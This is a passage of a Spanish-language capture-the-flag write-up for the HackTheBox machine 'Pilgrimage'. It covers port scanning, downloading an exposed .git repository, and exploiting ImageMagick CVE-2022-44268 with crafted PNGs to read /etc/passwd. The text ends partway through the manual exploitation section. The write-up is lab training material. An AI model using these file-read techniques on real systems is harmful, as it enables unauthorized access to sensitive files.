





# Pilgrimage

`Pilgrimage` es una máquina Linux de dificultad fácil que presenta una aplicación web con un repositorio `Git` expuesto. El análisis del sistema de archivos subyacente y el código fuente revela el uso de una versión vulnerable de `ImageMagick`, que se puede utilizar para leer archivos arbitrarios en el objetivo mediante la incorporación de un fragmento `tEXT` malicioso en una imagen PNG. La vulnerabilidad se aprovecha para obtener un archivo de base de datos `SQLite` que contiene una contraseña de texto sin formato que se puede utilizar para acceder a la máquina mediante SSH. La enumeración de los procesos en ejecución revela un script `Bash` ejecutado por `root` que llama a una versión vulnerable del binario `Binwalk`. Al crear otro PNG malicioso, se aprovecha `CVE-2022-4510` para obtener la ejecución remota de código (RCE) como `root`.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Pilgrimage**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.219 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 00:21 CET
Initiating SYN Stealth Scan at 00:21
Scanning 10.10.11.219 [65535 ports]
Discovered open port 80/tcp on 10.10.11.219
Discovered open port 22/tcp on 10.10.11.219
Completed SYN Stealth Scan at 00:21, 12.79s elapsed (65535 total ports)
Nmap scan report for 10.10.11.219
Host is up, received user-set (0.048s latency).
Scanned at 2025-02-18 00:21:00 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.219
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx`.

```bash
❯ nmap -sCV -p22,80,443 10.10.11.219 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 00:22 CET
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.076s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp  open   http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
443/tcp closed https
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   101.20 ms 10.10.16.1
2   31.63 ms  pilgrimage.htb (10.10.11.219)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep pilgrimage
10.10.11.219 pilgrimage.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://pilgrimage.htb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.219], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

Accederemos a [http://pilgrimage.htb](http://pilgrimage.htb) y nos encontraremos con la siguiente página web. Al parecer, esta página web su función es redimensionar imágenes que subamos en la aplicación web.

<figure><figcaption></figcaption></figure>

Al acceder a la opción de `Register`, comprobamos que podemos registrarnos correctamente.

<figure><figcaption></figcaption></figure>

Volviendo a la página principal, verificamos la opción de subir imágenes. Intentamos subir directamente un archivo `PHP`, pero se nos indicaba mensaje de error.

<figure><figcaption></figcaption></figure>

Probamos de subir una imagen normal, al darle a la opción de `Shrink`, se nos proporcionaba un enlace de la imagen redimensionada.

<figure><figcaption></figcaption></figure>

Accederemos al enlace, y comprobaremos que nos muestra la imagen subida redimensionada correctamente.

<figure><figcaption></figcaption></figure>

### Downloading Git Folder disclosure (GitHack)

Realizando una enumeración de los directorios y páginas web presentes en la página web, nos encontramos un directorio `/.git/`.

```bash
❯ dirsearch -u 'http://pilgrimage.htb' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Pilgrimage/Pilgrimage/reports/http_pilgrimage.htb/_25-02-18_00-32-25.txt

Target: http://pilgrimage.htb/

[00:32:25] Starting: 
[00:32:27] 200 -   92B  - /.git/config
[00:32:27] 200 -   23B  - /.git/HEAD
[00:32:27] 200 -   73B  - /.git/description
[00:32:27] 200 -    2KB - /.git/COMMIT_EDITMSG
[00:32:27] 200 -  240B  - /.git/info/exclude
[00:32:27] 200 -    4KB - /.git/index
[00:32:27] 200 -  195B  - /.git/logs/HEAD
```

A través de la herramienta de [`GitHack`](https://github.com/lijiejie/GitHack), nos descargaremos todo el directorio de `/.git/` de la página web.

```bash
❯ python3 /opt/GitHack/GitHack.py http://pilgrimage.htb/.git/ 2>/dev/null
[+] Download and parse index file ...
```

Accederemos al directorio que se nos ha generado, y comprobaremos la estructura de los archivos que disponemos. Entre ellos, nos encontramos archivos de lo que parece ser la página web.

```bash
❯ cd pilgrimage.htb

❯ tree
.
├── assets
│   ├── bulletproof.php
│   ├── css
│   │   ├── animate.css
│   │   ├── custom.css
│   │   ├── flex-slider.css
│   │   ├── fontawesome.css
│   │   ├── owl.css
│   │   └── templatemo-woox-travel.css
│   ├── images
│   │   ├── banner-04.jpg
│   │   └── cta-bg.jpg
│   ├── js
│   │   ├── custom.js
│   │   ├── isotope.js
│   │   ├── isotope.min.js
│   │   ├── owl-carousel.js
│   │   ├── popup.js
│   │   └── tabs.js
│   └── webfonts
│       ├── fa-brands-400.ttf
│       ├── fa-brands-400.woff2
│       ├── fa-regular-400.ttf
│       ├── fa-regular-400.woff2
│       ├── fa-solid-900.ttf
│       ├── fa-solid-900.woff2
│       ├── fa-v4compatibility.ttf
│       └── fa-v4compatibility.woff2
├── dashboard.php
├── index.php
├── login.php
├── logout.php
├── magick
├── register.php
└── vendor
    ├── bootstrap
    │   ├── css
    │   │   └── bootstrap.min.css
    │   └── js
    │       └── bootstrap.min.js
    └── jquery
        ├── jquery.js
        ├── jquery.min.js
        ├── jquery.min.map
        ├── jquery.slim.js
        ├── jquery.slim.min.js
        └── jquery.slim.min.map

11 directories, 37 files
```

Verificamos que disponemos de un archivo llamado `magick`, al revisar el archivo, nos encontramos que se trata del ejecutable.


ImageMagick es un complemento de software para crear, editar, componer o convertir imágenes de mapa de bits. Puede leer y escribir imágenes en varios formatos (más de 200), incluidos PNG, JPEG, JPEG-2000, GIF, TIFF, DPX, EXR, WebP, Postscript, PDF y SVG.


```bash
❯ ls -l
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:32:46 2025  assets
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:32:46 2025 󰫦 vendor
.rw-rw-r-- kali kali 5.4 KB Tue Feb 18 00:32:46 2025  dashboard.php
.rw-rw-r-- kali kali 9.0 KB Tue Feb 18 00:32:46 2025  index.php
.rw-rw-r-- kali kali 6.7 KB Tue Feb 18 00:32:46 2025  login.php
.rw-rw-r-- kali kali  98 B  Tue Feb 18 00:32:46 2025  logout.php
.rw-rw-r-- kali kali  26 MB Tue Feb 18 00:32:49 2025  magick
.rw-rw-r-- kali kali 6.7 KB Tue Feb 18 00:32:46 2025  register.php

❯ file magick
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Le daremos permisos de ejecución al binario, y comprobaremos que la versión es la `7.1.0-49`.

```bash
❯ chmod +x magick

❯ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Este archivo `index.php` se encarga de procesar imágenes subidas por los usuarios y redimensionarlas utilizando `ImageMagick`.

Primero, gestiona sesiones con `session_start()`, verificando si hay un usuario autenticado. Luego, al recibir una solicitud `POST`, usa la biblioteca `bulletproof` para manejar la imagen.

* **Restricciones:** Solo permite imágenes PNG y JPEG, con tamaños entre 100 bytes y 4 MB.
* **Almacenamiento temporal:** Guarda la imagen en `/var/www/pilgrimage.htb/tmp/`.
* **Procesamiento con ImageMagick:** Usa `exec()` para ejecutar `convert`, redimensionando la imagen al 50% y almacenándola en `/var/www/pilgrimage.htb/shrunk/`.
* **Registro en la base de datos:** Si el usuario está autenticado, inserta la imagen en una base de datos SQLite ubicada en `/var/db/pilgrimage`.
* **Mensajes de respuesta:** Redirige a la página principal con un mensaje de éxito o fallo.


```php
<?php
session_start();
require_once "assets/bulletproof.php";

function isAuthenticated() {
  return json_encode(isset($_SESSION['user']));
}

function returnUsername() {
  return "\"" . $_SESSION['user'] . "\"";
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
    else {
      header("Location: /?message=Image shrink failed&status=fail");
    }
  }
  else {
    header("Location: /?message=Image shrink failed&status=fail");
  }
}

?>
```


El siguiente archivo, `login.php`, gestiona la autenticación de usuarios mediante una base de datos SQLite ubicada en `/var/db/pilgrimage`.

* **Control de sesión:** Si el usuario ya ha iniciado sesión, lo redirige automáticamente a `dashboard.php`.
* **Manejo de credenciales:** Al recibir una solicitud `POST`, obtiene el `username` y `password` del formulario.
* **Consulta en la base de datos:** Usa un `SELECT` para buscar en la tabla `users` dentro de la base de datos SQLite en `/var/db/pilgrimage`, verificando si coinciden el usuario y la contraseña.
* **Inicio de sesión:** Si las credenciales son válidas, almacena el nombre de usuario en `$_SESSION['user']` y redirige a `dashboard.php`.
* **Manejo de errores:** Si la autenticación falla, redirige a `login.php` con un mensaje de error.


```php
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

  if($stmt->fetchAll()) {
    $_SESSION['user'] = $username;
    header("Location: /dashboard.php");
  }
  else {
    header("Location: /login.php?message=Login failed&status=fail");
  }
}
?>
```


## Initial Acces

### ImageMagick 7.1.0-49 Exploitation - Arbitrary File Read (CVE-2022-44268)

Sabiendo que la aplicación web al realizar la redimensión de la imagen que le subimos y utiliza `ImageMagick` para realizar esta conversión, decidimos buscar vulnerabilidades de la versión que nos encontramos del binario que al parecer utiliza.

Realizando una búsqueda por Internet, nos encontramos con el siguiente `CVE-2022-44268`.

<figure><figcaption></figcaption></figure>




ImageMagick 7.1.0-49 es vulnerable a la divulgación de información. Cuando analiza una imagen PNG (por ejemplo, para cambiar su tamaño), la imagen resultante podría tener incrustado el contenido de un archivo arbitrario (si el binario de Magick tiene permisos para leerlo).


### Exploitation with Rust Script

Realizando una búsqueda por Internet de proyectos en dónde se nos muestre cómo explotar dicha vulnerabilidad, nos encontramos con el siguiente repositorio que mediante un script de `Rust`, podríamos a llegar a realizar la explotación.



```bash
❯ git clone https://github.com/voidz0r/CVE-2022-44268; cd CVE-2022-44268
Clonando en 'CVE-2022-44268'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 30 (delta 8), reused 17 (delta 2), pack-reused 0 (from 0)
Recibiendo objetos: 100% (30/30), 954.74 KiB | 4.03 MiB/s, listo.
Resolviendo deltas: 100% (8/8), listo.
```

Ejecutaremos el proyecto a través de `cargo run` y le indicaremos el nombre del archivo que queremos leer, en este caso, el archivo es el de `/etc/passwd`. El propio proyecto ya nos proporciona una imagen de prueba en la cual le inyectaremos la vulnerabilidad.

```bash
❯ cargo run "/etc/passwd"
   Compiling crc32fast v1.3.2
   Compiling cfg-if v1.0.0
   Compiling adler v1.0.2
   Compiling bitflags v1.3.2
   Compiling hex v0.4.3
   Compiling miniz_oxide v0.6.2
   Compiling flate2 v1.0.25
   Compiling png v0.17.7
   Compiling cve-2022-44268 v0.1.0 (/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/CVE-2022-44268)
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 3.51s
     Running `target/debug/cve-2022-44268 /etc/passwd`
❯ ls -l
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:09 2025  screens
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:09 2025 󱧼 src
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:56 2025  target
.rw-rw-r-- kali kali 1.9 KB Tue Feb 18 00:43:09 2025  Cargo.lock
.rw-rw-r-- kali kali 212 B  Tue Feb 18 00:43:09 2025  Cargo.toml
.rw-rw-r-- kali kali 1.6 KB Tue Feb 18 00:43:56 2025  image.png
.rw-rw-r-- kali kali 1.1 KB Tue Feb 18 00:43:09 2025  README.md
```

Revisaremos mediante `exiftool` la imagen, y comprobaremos que en el `Profile` se ha incrustado el archivo `/etc/passwd`. Por lo tanto, si subimos esta imagen maliciosa en la página web y se redimensiona mediante `ImageMagick` tal y como comprobamos anteriormente, si es vulnerable, posteriormente deberíamos poder listar el contenido del archivo arbitrario indicado.

```bash
❯ exiftool image.png
ExifTool Version Number         : 13.10
File Name                       : image.png
Directory                       : .
File Size                       : 1653 bytes
File Modification Date/Time     : 2025:02:18 00:43:56+01:00
File Access Date/Time           : 2025:02:18 00:43:56+01:00
File Inode Change Date/Time     : 2025:02:18 00:43:56+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 200
Image Height                    : 200
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /etc/passwd
Image Size                      : 200x200
Megapixels                      : 0.040
```

Por lo tanto, subiremos esta nueva imagen en la página web y le daremos a la opción de `Shrink` para redimensionar la imagen. Verificamos que se nos proporciona el enlace de la imagen redimensionada.

<figure><figcaption></figcaption></figure>

Nos descargaremos en nuestro equipo la imagen en local.

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3cb0d8693c.png
--2025-02-18 00:49:12--  http://pilgrimage.htb/shrunk/67b3cb0d8693c.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1080 (1,1K) [image/png]
Grabando a: «67b3cb0d8693c.png»

67b3cb0d8693c.png                                         100%[===================================================================================================================================>]   1,05K  --.-KB/s    en 0s      

2025-02-18 00:49:12 (70,6 MB/s) - «67b3cb0d8693c.png» guardado [1080/1080]
```

A través de `identify`, comprobaremos la información de la imagen, en la cual en el apartado de `Raw profile type`, se nos muestra un contenido codificado en `Hex`. Parece ser que la vulnerabilidad está presente en la versión de `ImageMagick` que realiza la redimensión de la imagen que subimos.

```bash
❯ identify -verbose 67b3cb0d8693c.png
Image:
  Filename: 67b3cb0d8693c.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Properties:
    date:create: 2025-02-17T23:49:12+00:00
    date:modify: 2025-02-17T23:49:33+00:00
    date:timestamp: 2025-02-17T23:49:43+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 1
    png:IHDR.bit_depth: 1
    png:IHDR.color-type-orig: 3
    png:IHDR.color_type: 3 (Indexed)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 100, 100
    png:PLTE.number_colors: 2
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-17T23:49:33Z
    Raw profile type: 

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

    signature: 40ccbd462fca34c4677378d49f0e3fe72cfb756b903412eb9162f53c99e02364
  Artifacts:
    filename: 67b3cb0d8693c.png
    verbose: true
  Tainted: False
  Filesize: 1080B
  Number pixels: 10000
  Pixels per second: 18.7133MB
  User time: 0.000u
  Elapsed time: 0:01.000
  Version: ImageMagick 6.9.13-12 Q16 x86_64 18420 https://legacy.imagemagick.org
```

Mediante `CyberChef`, descodificaremos el contenido indicado y verificaremos el resultado del archivo `/etc/passwd` del sistema vulnerable.&#x20;

Por lo tanto, tenemos una vía potencial de realizar un `Arbitrary File Read` y obtener archivos del sistema objetivo.

<figure><figcaption></figcaption></figure>

### Manual Exploitation

Por otro lado, podemos realizar la explotación de esta vulnerabilidad manualmente. En el siguiente repositorio de GitHub, se nos muestra un PoC de cómo realizarlo.



El siguiente procedimiento muestra cómo hemos incrustado el contenido del archivo `/etc/hosts` dentro de los metadatos de una imagen PNG y luego lo hemos verificado.

Utilizamos `pngcrush` para agregar el contenido de `/etc/hosts` en un campo de metadatos `tEXt` dentro de la imagen `image.png.` A través de `exiv2`, verificamos que en los metadatos se ha incrustado correctamente.

```bash
❯ pngcrush -text a "profile" "/etc/hosts" image.png
  Recompressing IDAT chunks in image.png to pngout.png
   Total length of data found in critical chunks            =    177178
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =    189754
CPU time decode 0.035489, encode 0.323839, other 0.003389, total 0.369960 sec

❯ exiv2 -pS pngout.png
STRUCTURE OF PNG FILE: pngout.png
